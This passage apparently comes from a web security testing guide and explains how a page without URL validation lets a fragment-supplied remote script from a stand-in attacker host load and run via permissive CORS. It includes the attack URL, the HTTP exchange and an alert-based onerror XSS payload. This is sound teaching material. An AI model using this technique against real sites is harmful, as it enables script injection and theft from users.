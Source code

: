 Now, as there is no URL validation we can inject a remote script, that will be injected and executed in the context of the `example.foo` domain, with a URL like this:

```text
http://example.foo/main.php#http://attacker.bar/file.php
```

Request and response generated by `http://attacker.bar/file.php`:

```html
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/main.php
origin: http://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```

## References

- [OWASP HTML5 Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing)
- [MDN Cross-Origin Resources Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
